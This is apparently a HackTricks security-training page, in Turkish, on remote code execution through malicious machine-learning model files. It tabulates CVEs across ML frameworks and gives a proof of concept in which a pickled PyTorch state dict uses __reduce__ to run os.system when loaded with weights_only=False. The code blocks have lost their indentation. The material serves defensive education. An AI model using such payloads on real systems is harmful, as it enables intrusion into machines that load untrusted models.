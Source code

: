 # Modeller RCE

{{#include ../banners/hacktricks-training.md}}

## Modellerin RCE'ye Yüklenmesi

Makine Öğrenimi modelleri genellikle ONNX, TensorFlow, PyTorch gibi farklı formatlarda paylaşılır. Bu modeller, geliştiricilerin makinelerine veya üretim sistemlerine yüklenerek kullanılabilir. Genellikle modeller kötü niyetli kod içermemelidir, ancak model yükleme kütüphanesindeki bir güvenlik açığı veya istenen bir özellik nedeniyle modelin sistemde rastgele kod çalıştırmak için kullanılabileceği bazı durumlar vardır.

Yazım zamanı itibarıyla bu tür güvenlik açıklarına bazı örnekler şunlardır:

| **Framework / Araç**       | **Güvenlik Açığı (CVE mevcutsa)**                                                                                          | **RCE Vektörü**                                                                                                                        | **Referanslar**                             |
|-----------------------------|------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------|
| **PyTorch** (Python)        | *Güvensiz serileştirme* `torch.load` **(CVE-2025-32434)**                                                                  | Model kontrol noktasındaki kötü niyetli pickle, kod çalıştırmaya yol açar ( `weights_only` korumasını atlar)                            | |
| PyTorch **TorchServe**      | *ShellTorch* – **CVE-2023-43654**, **CVE-2022-1471**                                                                       | SSRF + kötü niyetli model indirme, kod çalıştırmaya neden olur; yönetim API'sinde Java serileştirme RCE                                   | |
| **TensorFlow/Keras**        | **CVE-2021-37678** (güvensiz YAML) <br> **CVE-2024-3660** (Keras Lambda)                                                  | YAML'den model yüklemek `yaml.unsafe_load` kullanır (kod çalıştırma) <br> **Lambda** katmanı ile model yüklemek rastgele Python kodu çalıştırır | |
| TensorFlow (TFLite)         | **CVE-2022-23559** (TFLite ayrıştırma)                                                                                     | Özel olarak hazırlanmış `.tflite` modeli, tam sayı taşması tetikler → bellek bozulması (potansiyel RCE)                                 | |
| **Scikit-learn** (Python)   | **CVE-2020-13092** (joblib/pickle)                                                                                         | `joblib.load` ile bir model yüklemek, saldırganın `__reduce__` yükünü çalıştırır                                                          | |
| **NumPy** (Python)          | **CVE-2019-6446** (güvensiz `np.load`) *tartışmalı*                                                                        | `numpy.load` varsayılan olarak pickle nesne dizilerine izin veriyordu – kötü niyetli `.npy/.npz` kod çalıştırmayı tetikler               | |
| **ONNX / ONNX Runtime**     | **CVE-2022-25882** (dizin geçişi) <br> **CVE-2024-5187** (tar geçişi)                                                     | ONNX modelinin dış-ağırlık yolu dizinden çıkabilir (rastgele dosyaları okuyabilir) <br> Kötü niyetli ONNX model tar, rastgele dosyaları yazabilir (RCE'ye yol açar) | |
| ONNX Runtime (tasarım riski) | *(CVE yok)* ONNX özel ops / kontrol akışı                                                                                  | Özel operatör içeren model, saldırganın yerel kodunu yüklemeyi gerektirir; karmaşık model grafikleri, istenmeyen hesaplamaları çalıştırmak için mantığı kötüye kullanır | |
| **NVIDIA Triton Server**    | **CVE-2023-31036** (yol geçişi)                                                                                           | `--model-control` etkinleştirildiğinde model yükleme API'si, dosyaları yazmak için göreli yol geçişine izin verir (örneğin, RCE için `.bashrc`'yi geçersiz kılmak) | |
| **GGML (GGUF formatı)**     | **CVE-2024-25664 … 25668** (birden fazla bellek taşması)                                                                   | Bozuk GGUF model dosyası, ayrıştırıcıda bellek tamponu taşmalarına neden olur, kurban sistemde rastgele kod çalıştırmayı sağlar            | |
| **Keras (eski formatlar)**  | *(Yeni CVE yok)* Eski Keras H5 modeli                                                                                      | Kötü niyetli HDF5 (`.h5`) modeli, Lambda katmanı kodu yüklenirken hala çalışır (Keras güvenli_modu eski formatı kapsamaz – “gerileme saldırısı”) | |
| **Diğerleri** (genel)       | *Tasarım hatası* – Pickle serileştirme                                                                                     | Birçok ML aracı (örneğin, pickle tabanlı model formatları, Python `pickle.load`) model dosyalarına gömülü rastgele kodu çalıştıracaktır, önlem alınmadıkça | |

Ayrıca, [PyTorch](https://github.com/pytorch/pytorch/security) tarafından kullanılanlar gibi bazı python pickle tabanlı modeller, `weights_only=True` ile yüklenmediklerinde sistemde rastgele kod çalıştırmak için kullanılabilir. Bu nedenle, yukarıdaki tabloda listelenmemiş olsalar bile, herhangi bir pickle tabanlı model bu tür saldırılara özellikle duyarlı olabilir.

Örnek:

- Modeli oluştur:
```python
# attacker_payload.py
import torch
import os

class MaliciousPayload:
def __reduce__(self):
# This code will be executed when unpickled (e.g., on model.load_state_dict)
return (os.system, ("echo 'You have been hacked!' > /tmp/pwned.txt",))

# Create a fake model state dict with malicious content
malicious_state = {"fc.weight": MaliciousPayload()}

# Save the malicious state dict
torch.save(malicious_state, "malicious_state.pth")
```
- Modeli yükle:
```python
# victim_load.py
import torch
import torch.nn as nn

class MyModel(nn.Module):
def __init__(self):
super().__init__()
self.fc = nn.Linear(10, 1)

model = MyModel()

# ⚠️ This will trigger code execution from pickle inside the .pth file
model.load_state_dict(torch.load("malicious_state.pth", weights_only=False))

# /tmp/pwned.txt is created even if you get an error
```
{{#include ../banners/hacktricks-training.md}}
